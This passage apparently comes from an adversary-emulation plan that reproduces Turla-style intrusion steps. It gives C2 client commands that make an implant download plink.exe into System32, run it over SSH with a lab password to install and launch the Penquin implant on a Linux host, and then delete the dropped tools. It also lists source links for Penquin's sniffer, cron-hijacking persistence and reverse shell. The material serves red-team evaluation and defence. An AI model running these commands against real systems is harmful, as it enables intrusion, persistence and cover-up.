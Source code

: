 * Wait 1 minute and then task the implant to download `plink.exe`

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 7, "payload": "plink.exe", "payload_dest": "C:\\Windows\\Temp\\plink.exe", "cmd": "move C:\\Windows\\Temp\\plink.exe C:\\Windows\\System32\\plink.exe && dir C:\\Windows\\System32\\plink.exe"}'
```

* Wait 1 minute and then task the implant to execute Penquin (Penquin takes ~8 seconds to execute).

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 8, "cmd": "(echo unzip /tmp/tmp514f524f -d /tmp & echo sudo mv /tmp/hsperfdata /root/hsperfdata & echo sudo /root/hsperfdata & echo exit) | C:\\Windows\\System32\\plink.exe -ssh -l adalwolfa -pw Password2! 10.20.10.23"}'
```

* Ensure no commands returned errors in the plink output:
>
* > ```shell
    > unzip /tmp/tmp514f524f -d /tmp 
    > 
    > sudo mv /tmp/hsperfdata /root/hsperfdata 
    > 
    > sudo /root/hsperfdata 
    > 
    > exit 
    > 
    > adalwolfa@skt.local@kagarov:~$ unzip /tmp/tmp514f524f -d /tmp 
    > Archive:  /tmp/tmp514f524f
    >   inflating: /tmp/hsperfdata         
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ sudo mv /tmp/hsperfdata /root/hsperfdata 
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ sudo /root/hsperfdata 
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ exit 
    > logout
    > ```

* Wait 1 minute and then task the implant to clean up downloaded files

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 9, "cmd": "del /Q C:\\Windows\\Temp\\tmp504e.tmp C:\\Windows\\System32\\pscp.exe C:\\Windows\\System32\\plink.exe"}'
```

### :moyai: Source Code

* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
* [Penquin](../../Resources/Penquin/) ([Network Sniffer](../../Resources/Penquin/sniff.c), [Penquin Installer](../../Resources/Penquin/main.c), & [Obfuscation Algorithm](../../Resources/Penquin/crypt.h#L60))
  * [Writes the sniffer (Penquin) to disk](../../Resources/Penquin/main.c#L220)
  * [Moves Penquin to /usr/bin](../../Resources/Penquin/main.c#L121)
  * [Creates a service file](../../Resources/Penquin/main.c#L173)
  * [Stops cron service](../../Resources/Penquin/main.c#L143)
  * [Executes Penquin as cron](../../Resources/Penquin/main.c#L198)
  * [Real cron starts as child process](../../Resources/Penquin/sniff.c#L198)
  * [Installs packet sniffer on eth0](../../Resources/Penquin/sniff.c#L482)
  * [Magic packet filter criteria](../../Resources/Penquin/sniff.c#L437-L442)
  * [Execute reverse shell](../../Resources/Penquin/sniff.c#L405)
